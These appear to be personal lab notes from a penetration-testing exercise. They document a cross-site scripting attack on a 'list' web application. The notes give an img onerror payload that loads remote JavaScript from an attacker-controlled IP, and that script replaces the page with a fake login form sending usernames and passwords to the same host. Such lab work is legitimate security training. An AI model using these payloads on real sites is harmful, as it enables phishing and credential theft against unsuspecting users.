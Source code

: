 ```html
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>';
```
What it looks like:

<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>
##### phishingexercise.js chatgpt Fixed - FINAL
```html
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>';
```
<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>

**The reasoning why our original payload wouldn't work was due to things in HTML called `non breaking spaces` in this case they were invisible, the lines are able to be identified utilizing vscode - once this is fixed the code works properly** 
![[Pasted image 20240806172916.png]]
My `phishingexercise.js` payload
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/phishingexercise.js';script.async = true;document.body.appendChild(script);">
```


#### Exploit start:
Explanation:

- the `list.com` application requires `img src` to be utilized to execute scripts - the problem is that whe attempting to utilize `<img src="x" onerror='fetch("http://192.168.45.236:80/phishingexercise.js")'>` as the payload to retrieve a `login` application to then phish `fetch` does not execute the `phishingexercise.js` payload only is seen as a `GET` request in the `python3 server`
- In order to make `phishingexercise.js` into a html script https://www.w3schools.com/howto/howto_css_login_form.asp 
- In order to make `phishingexercise.js` into a `js` executable script element used this https://www.codingbeautydev.com/blog/javascript-create-script-element
![[Pasted image 20240806175037.png]]

Script utilized to bypass `innerHTML` script running by utilizing `img` - this script is used to pull and execute the `phishingexercise.js` payload
- the payload entered into the vulnerable field
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/phishingexercise.js';script.async = true;document.body.appendChild(script);">
```
My `phishingexercise.js` payload
```html
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>';
```
With `python3 server` off and not listening throw the payload above into the `list` application in the vulnerable field and hit `share` to grab the `csv`
![[Pasted image 20240806173441.png]]